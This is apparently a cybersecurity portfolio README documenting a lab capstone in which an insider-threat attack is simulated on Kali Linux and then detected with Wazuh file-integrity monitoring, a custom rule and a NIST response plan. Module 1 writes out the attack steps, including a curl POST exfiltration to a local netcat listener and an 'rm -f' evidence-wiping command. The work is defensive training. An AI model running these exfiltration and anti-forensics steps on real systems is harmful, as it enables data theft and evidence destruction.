




<div align="center">

# ⚔️ SOC Red vs Blue Capstone

**Project 10 of 29 — Blue Team Internship Portfolio**

Insider Threat Simulation · FIM Threat Hunting · Custom Detection Engineering · NIST IR


A full insider-threat attack simulated end to end on one side, and investigated, decoded, and permanently detected on the other — including a genuine detection-rule gap that didn't fire as expected, diagnosed step by step and closed with a compensating log source instead of being hidden.

### [📑 Open the visual index](INDEX.md)

</div>

---

## 📑 Table of Contents

1. [At a Glance](#at-a-glance)
2. [Project Background](#project-background)
3. [Environment](#environment)
4. [Attack Chain](#attack-chain)
5. [Project Flow](#project-flow)
6. [Module 1 — Red Team Execution](#module-1)
7. [Module 2 — FIM Threat Hunting](#module-2)
8. [Module 3 — Decoding the Evidence](#module-3)
9. [Module 4 — Detection Engineering](#module-4)
10. [Module 5 — Containment, Eradication & Recovery](#module-5)
11. [Coverage Snapshot](#coverage-snapshot)
12. [Troubleshooting Pipeline](#troubleshooting-pipeline)
13. [Command Reference](#command-reference)
14. [Project Summary](#project-summary)
15. [Challenges & Fixes](#challenges-fixes)
16. [Scope & Limitations](#scope-limitations)
17. [What I Learned](#what-i-learned)
18. [Skills Demonstrated](#skills-demonstrated)
19. [Screenshot Index](#screenshot-index)
20. [Repo Structure](#repo-structure)

---

<a id="at-a-glance"></a>
## 📊 At a Glance

| 🧩 Attack Stages | 🖼️ Screenshots | 🎯 Custom Rules Written | 🔍 Detection Gaps Found & Closed | 💰 Cost |
|:---:|:---:|:---:|:---:|:---:|
| **4** | **5** | **1** | **1** | **$0** |

---

<a id="project-background"></a>
## 📖 Project Background

**What happened:** A simulated rogue employee ("insider threat") on a company endpoint accessed a confidential client database, disguised the file to avoid detection, sent it out of the company network to an external location, and then deleted the files to try to hide the evidence.

**What was done about it:** The full attack chain was reconstructed using File Integrity Monitoring (FIM) logs and system audit logs. The exact content of the disguised file was recovered and confirmed using a decoding tool. A new, permanent detection rule was written and tested so this specific technique will trigger an immediate high-priority alert if attempted again.

> [!IMPORTANT]
> **Platform substitution, disclosed directly:** The task brief specifies a Windows endpoint (PowerShell, `certutil.exe`, `C:\Espionage`). No functioning Windows VM was available after repeated setup failures (corrupted VM image, account lockout). The entire simulation was instead executed on a **Kali Linux** endpoint enrolled as a Wazuh agent, using direct Bash equivalents of every Windows command in the brief (`/root/Espionage` in place of `C:\Espionage`). Every detection concept, MITRE technique, and analysis step is unchanged — only the OS-specific syntax differs.

| Task Block | Status | Note |
|---|:---:|---|
| Phase One — Attack Simulation | ✅ Complete | File staged, disguised, exfiltrated, and deleted |
| Task 1 — FIM Threat Hunting | ✅ Complete | Creation confirmed via rule 550; deletion confirmed via sudo audit log (rule 5402) after the dedicated deletion rule did not trigger |
| Task 2 — Decoding the Evidence | ✅ Complete | Disguised file content fully recovered via CyberChef |
| Task 3 — Detection Engineering | ✅ Complete | Custom rule 100050 written, deployed, and confirmed firing on a live test |

---

<a id="environment"></a>
## 🖧 Environment

| Item | Value |
|---|---|
| **Attack Platform** | Kali Linux (substituted for a Windows endpoint — see above) |
| **SIEM** | Fresh Wazuh Cloud trial environment |
| **Agent Name** | `kali-agent` |
| **Staging Directory** | `/root/Espionage` (substituted for `C:\Espionage`) |
| **FIM Mode** | `realtime` (`inotify`) for creation; `whodata` + `auditd` attempted for deletion |
| **Exfiltration Method** | HTTP POST to a local listener (`nc -lvnp 8080`) |
| **Custom Rule** | 100050, Level 10, chained on parent rule 550, MITRE `T1027` |
| **Incident Date** | September 12, 2026, ~16:06–18:35 PKT |
| **IR Framework** | NIST SP 800-61 |

---

<a id="attack-chain"></a>
## 🔗 Attack Chain



---

<a id="project-flow"></a>
## ⏱️ Project Flow



---

<a id="module-1"></a>
## 🔴 Module 1 — Red Team Execution

**Objective:** Execute the four-stage insider threat scenario exactly as specified — stage, obfuscate, exfiltrate, delete — generating the log evidence Module 2 investigates.

### Step 1 — Stage the confidential file ✅

```
echo 'CLIENT: Cyberster | ACCT: 4459 | PW: AdminPassword2026!' | \
sudo tee /root/Espionage/Client_Database.txt
```

### Step 2 — Obfuscate via Base64 encoding ✅

```
sudo base64 /root/Espionage/Client_Database.txt | \
sudo tee /root/Espionage/system_cache.b64
```

Functional equivalent of the brief's `certutil.exe -encode` step — both produce a Base64-encoded copy under an innocuous filename intended to blend in with legitimate system files.

### Step 3 — Exfiltrate over HTTP POST ✅

```
sudo nc -lvnp 8080                                              # listener (attacker side)
sudo curl -X POST --data-binary @/root/Espionage/system_cache.b64 \
  http://127.0.0.1:8080                                          # exfiltration (victim side)
```

The encoded payload was confirmed arriving intact at the listener (`Content-Length: 77`, Base64 body).

### Step 4 — Anti-forensics cleanup ✅

```
sudo rm -f /root/Espionage/*
```

The attacker's working assumption is that deleting the files destroys the evidence — Module 2 demonstrates why this assumption is false.

---

<a id="module-2"></a>
## 🔵 Module 2 — FIM Threat Hunting

**Objective:** Locate the log events proving each stage of the attack occurred, and build a timeline mapping each event to its file path, timestamp, agent, and user context.

### Step 5 — Confirm file creation via Rule 550 ✅

Filtering Discover to `rule.id: 550` returned FIM integrity-checksum alerts for both staged files, with full path, hash, and timing detail.

<p align="center">
  <br>
  <em>Exhibit 1 (Figure 4.1) — Wazuh Discover, rule.id: 550. Two FIM events: <code>system_cache.b64</code> and <code>Client_Database.txt</code>, SHA1 hash, mtime, "Integrity checksum changed", tagged MITRE T1565.001</em>
</p>

### Step 6 — Investigate the deletion event ⚠️➜✅

The dedicated FIM deletion rule (553) was queried directly and **did not return a result**, despite `whodata` mode via `auditd` being correctly configured and its watch rule confirmed registered. This gap is treated as a genuine finding (see Module 4 for the full diagnostic sequence), not concealed.

To confirm the deletion still occurred, the **sudo command audit trail (rule 5402)** was queried instead, and returned an exact match.

<p align="center">
  <br>
  <em>Exhibit 2 (Figure 4.2) — Wazuh Discover, rule.id: 5402 AND data.command: *rm*. One hit: <code>/usr/bin/rm -f /root/Espionage/*</code> executed by <code>malaikaazhar</code> via sudo — confirming the anti-forensics step with full command line and timestamp</em>
</p>

### 🕒 Reconstructed Timeline

| Attack Step | Evidence | File Path | Detection Method |
|---|---|---|---|
| 1. Stage file | syscheck event, rule 550 | `/root/Espionage/Client_Database.txt` | FIM (native) |
| 2. Obfuscate (Base64) | syscheck event, rule 550 | `/root/Espionage/system_cache.b64` | FIM (native) |
| 3. Exfiltrate | Listener capture + sudo audit log, rule 5402 | `/root/Espionage/system_cache.b64` | Network capture + command audit |
| 4. Delete evidence | Sudo audit log, rule 5402 | `/root/Espionage/*` | Command audit (FIM deletion rule did not fire — see Module 4) |

🎯 **Why deleting the files didn't destroy the evidence:** Wazuh's FIM engine records file metadata (hash, size, owner, mtime) at the moment a file is created or changed, and this record persists in the Manager's database independently of the file's later fate on disk. Separately, the OS's own command-execution logging (rule 5402) records the exact command run, regardless of whether the file-deletion-specific FIM rule also fires. Deleting a file removes it from the filesystem, not from either of these two independent logging layers.

---

<a id="module-3"></a>
## 🟣 Module 3 — Decoding the Evidence

**Objective:** Prove not just that a file left the machine, but exactly what data it contained.

### Step 7 — Decode the captured payload in CyberChef ✅

The Base64 string captured at the attacker's listener was submitted to CyberChef's "From Base64" recipe.

<p align="center">
  <br>
  <em>Exhibit 3 (Figure 5.1) — CyberChef "From Base64" applied to the 76-byte captured payload. Output confirms the exact client record, account number, and password string that left the environment</em>
</p>

🎯 **Result:** This decoded output is the primary forensic proof of impact — it moves the finding from *"a file was sent externally"* to *"this exact client data was sent externally."*

---

<a id="module-4"></a>
## 🟢 Module 4 — Detection Engineering

**Objective:** Ensure this specific technique — staging a Base64-obfuscated file inside a sensitive directory — generates an immediate, high-priority alert on any future occurrence.

### Step 8 — Author custom rule 100050 ✅

```xml
<group name="local,syscheck,">
<rule id="100050" level="10">
  <if_sid>550</if_sid>
  <field name="file" type="pcre2">\.b64$</field>
  <field name="file" type="pcre2">/root/Espionage</field>
  <description>Suspicious .b64 encoded file created in Espionage directory - possible data staging for exfiltration</description>
  <mitre><id>T1027</id></mitre>
  <group>data_exfiltration,</group>
</rule>
</group>
```

<p align="center">
  <br>
  <em>Exhibit 4 (Figure 6.1) — <code>local_rules.xml</code> as deployed in the Wazuh Rules editor: rule 100050 chained on parent rule 550, matching only <code>.b64</code> files inside <code>/root/Espionage</code>, Level 10, MITRE T1027</em>
</p>

The rule was deliberately set to **Level 10**: an encoded file appearing in this directory has effectively no legitimate business explanation once the parent FIM event and the filename/path conditions are all satisfied together — that's what justifies a real-time notification severity rather than a lower, log-only level.

### Step 9 — Verify the rule fires on a live re-test ✅

After deploying the rule and reloading the ruleset, Module 1's staging and encoding steps were re-executed to confirm the custom rule fires alongside the standard FIM alert.

<p align="center">
  <br>
  <em>Exhibit 5 (Figure 6.2) — Wazuh Discover, rule.id: 100050. One hit against <code>/root/Espionage/system_cache.b64</code> — verifying the rule is live, syntactically valid, and functioning as designed</em>
</p>

🎯 **Why chain on `if_sid` 550 instead of writing an independent rule?** Chaining onto the parent FIM rule means this custom rule only ever evaluates events syscheck has already confirmed are genuine file integrity changes, inheriting its reliability without duplicating file-monitoring logic — the custom rule stays focused purely on the pattern that matters (extension + path).

---

<a id="module-5"></a>
## 🟡 Module 5 — Containment, Eradication & Recovery

**Objective:** Document how a real enterprise SOC would respond to this confirmed incident (not the lab steps performed above).

| Phase | Action |
|---|---|
| **Containment** | Suspend (not delete) the compromised account, preserving it for forensic review. Forcibly terminate active sessions. Restrict the endpoint to an isolated VLAN reachable only by IR — keeping it available for live forensic capture rather than powering it off, which would destroy volatile memory evidence. Block the destination IP/listener at the perimeter immediately. |
| **Eradication** | Check for newly created scheduled tasks/cron jobs, new or modified accounts, unauthorized SSH keys, and unauthorized startup services. Run a full AV/EDR scan. Recalculate the FIM baseline only after confirming no unauthorized changes remain. |
| **Recovery** | Reactivate the account only after a password reset and MFA enrollment, with HR/legal informed given the insider-threat nature. Return the endpoint to its normal network segment only after clean eradication checks and a follow-up FIM scan. Leave the custom rule (100050) permanently deployed and add this incident to the organization's detection test suite for periodic re-verification. |

---

<a id="coverage-snapshot"></a>
## 🌟 Coverage Snapshot

| 🛡️ Phase | ✅ Status | 📌 Detail |
|---|---|---|
| Red Team Execution | Complete | All 4 stages executed and evidence-generating |
| FIM Threat Hunting | Complete | Creation confirmed (550); deletion gap found and compensated (5402) |
| Evidence Decoding | Complete | Exact exfiltrated content recovered via CyberChef |
| Detection Engineering | Complete | Rule 100050 written, deployed, and live-fire verified |
| IR Documentation | Complete | Full NIST SP 800-61 containment/eradication/recovery plan |
| FIM Deletion Rule (553) | Gap identified | Did not fire despite correct `whodata`/`auditd` config — documented, not hidden |

### 🧾 What the Evidence Proves



---

<a id="troubleshooting-pipeline"></a>
## 🧭 Troubleshooting Pipeline

How the rule-553 deletion gap was diagnosed rather than assumed



---

<a id="command-reference"></a>
## 🧰 Command Reference

| # | Command | Used In | Purpose |
|:---:|---|---|---|
| 1 | `echo '...' \| sudo tee Client_Database.txt` | Module 1 | Stage the confidential test file |
| 2 | `sudo base64 ... \| sudo tee system_cache.b64` | Module 1 | Obfuscate the file (equivalent of `certutil.exe -encode`) |
| 3 | `sudo nc -lvnp 8080` / `sudo curl -X POST --data-binary @...` | Module 1 | Exfiltration listener and HTTP POST send |
| 4 | `sudo rm -f /root/Espionage/*` | Module 1 | Anti-forensics cleanup (evidence still recoverable — see Module 2) |
| 5 | `-w /root/Espionage -p wa -k wazuh_fim` | Module 2 / 4 | auditd watch rule enabling `whodata` monitoring |
| 6 | CyberChef "From Base64" | Module 3 | Decode the captured exfiltration payload |
| 7 | `<if_sid>550</if_sid>` + `pcre2` file match | Module 4 | Chain custom rule 100050 onto the parent FIM rule |

---

<a id="project-summary"></a>
## 📝 Project Summary

| Module | Tooling | Key Outcome |
|---|---|---|
| Module 1 — Red Team Execution | Bash, `base64`, `nc`, `curl` | Full 4-stage insider-threat attack executed on Kali (substituted for Windows) |
| Module 2 — FIM Threat Hunting | Wazuh Discover, rules 550 / 5402 | Creation confirmed natively; deletion gap found and compensated |
| Module 3 — Decoding the Evidence | CyberChef | Exact exfiltrated client data recovered and confirmed |
| Module 4 — Detection Engineering | `local_rules.xml`, rule 100050 | Permanent high-priority rule written, deployed, and live-fire verified |
| Module 5 — IR Documentation | NIST SP 800-61 | Full containment/eradication/recovery plan for a real SOC response |

---

<a id="challenges-fixes"></a>
## ⚠️ Challenges & Fixes

| ❌ Challenge | ✅ Fix |
|---|---|
| No functioning Windows VM (corrupted image, account lockout) | Substituted Kali Linux with direct Bash equivalents of every Windows command — disclosed explicitly, not hidden |
| FIM deletion rule (553) did not fire despite correct `whodata`/`auditd` configuration | Diagnosed through a 5-step check sequence; when still unresolved, used the sudo command audit trail (rule 5402) as a compensating control |
| Monitoring configuration had to be corrected twice mid-exercise before capturing every stage | Required several attempts across the session window; documented honestly rather than presented as friction-free |

---

<a id="scope-limitations"></a>
## 🚧 Scope & Limitations

- **Platform substitution:** Kali Linux was used in place of the specified Windows endpoint due to environment failures. All detection concepts and MITRE mappings are unchanged — only OS-specific syntax differs.
- **Rule 553 (FIM deletion) unresolved:** Despite correct configuration at every checked layer, this rule did not fire in this environment. It is documented as an environment-specific limitation, not silently worked around.
- **Local listener, not a real external destination:** Exfiltration was demonstrated to `127.0.0.1:8080`, not an actual external network endpoint — sufficient to prove the technique and detection, not a real data-loss event.
- **Fictional test data only:** The "client record" staged and exfiltrated was fictional data created for this exercise, not real client information.

---

<a id="what-i-learned"></a>
## 🧠 What I Learned

- **A verified detection is worth more than a configured one.** The `whodata` configuration and registered audit rule looked correct at every check, yet rule 553 still didn't fire — a configuration step reporting success is not the same as confirming the intended detection outcome actually occurs.
- **Command-level audit logs are a necessary compensating control, not a nice-to-have.** This incident would have had an unverifiable deletion step without the sudo audit trail also being monitored — a mature SOC should never depend on a single log source for a critical event category.
- **A platform substitution should be disclosed, not hidden.** Running on Kali instead of Windows doesn't change the underlying concepts being tested, but it's stated explicitly at the point it occurred.
- **Deleting a file doesn't delete its evidence.** FIM metadata and command-execution logs are independent of the file's fate on disk — an attacker's cleanup step removes the file, not the two separate log trails that already recorded it.
- **Chaining a custom rule on a parent rule keeps detection logic honest.** Rule 100050 only evaluates events syscheck already confirmed as genuine — it doesn't duplicate detection logic, it narrows an already-reliable signal.

---

<a id="skills-demonstrated"></a>
## 🛠️ Skills Demonstrated

- Executing a full insider-threat attack chain (staging, obfuscation, exfiltration, anti-forensics)
- FIM-based threat hunting and cross-log timeline reconstruction
- Diagnosing a non-firing detection rule through a methodical, documented check sequence
- Using a compensating control (command-level audit) when a primary detection mechanism fails
- Forensic Base64 decoding to confirm exact data impact
- Writing and live-verifying a custom Wazuh rule chained on a parent FIM rule, mapped to MITRE ATT&CK
- Structuring an incident response plan around NIST SP 800-61 (containment, eradication, recovery)
- Disclosing environment substitutions and unresolved gaps directly rather than concealing them

---

<a id="screenshot-index"></a>
## 🖼️ Screenshot Index

| # | File | Shows |
|:---:|---|---|
| 1 | `ss-01-fim-creation-alerts-rule550.PNG` | Rule 550 FIM creation alerts for both staged files |
| 2 | `ss-02-sudo-audit-deletion-rule5402.PNG` | Rule 5402 sudo audit log confirming the `rm -f` deletion |
| 3 | `ss-03-cyberchef-base64-decode.PNG` | CyberChef decoding the exfiltrated payload |
| 4 | `ss-04-custom-rule-100050-source.PNG` | Custom rule 100050 source in the Wazuh Rules editor |
| 5 | `ss-05-custom-rule-100050-firing.PNG` | Rule 100050 confirmed firing on a live re-test |

---

<a id="repo-structure"></a>
## 📁 Repo Structure

```text
project-20-soc-redvsblue-capstone/
|-- README.md
|-- INDEX.md
`-- screenshots/
    |-- ss-01-fim-creation-alerts-rule550.PNG
    |-- ss-02-sudo-audit-deletion-rule5402.PNG
    |-- ss-03-cyberchef-base64-decode.PNG
    |-- ss-04-custom-rule-100050-source.PNG
    `-- ss-05-custom-rule-100050-firing.PNG
```

<div align="center">

🛡️ **[Wazuh](https://wazuh.com)** · 🐉 **[Kali Linux](https://www.kali.org)** · 🧪 **[CyberChef](https://gchq.github.io/CyberChef/)** · 🧭 **[MITRE ATT&CK](https://attack.mitre.org)** · 📘 **[NIST SP 800-61](https://csrc.nist.gov/pubs/sp/800/61/r2/final)** · 🧭 **[Troubleshooting Pipeline](#troubleshooting-pipeline)**

</div>
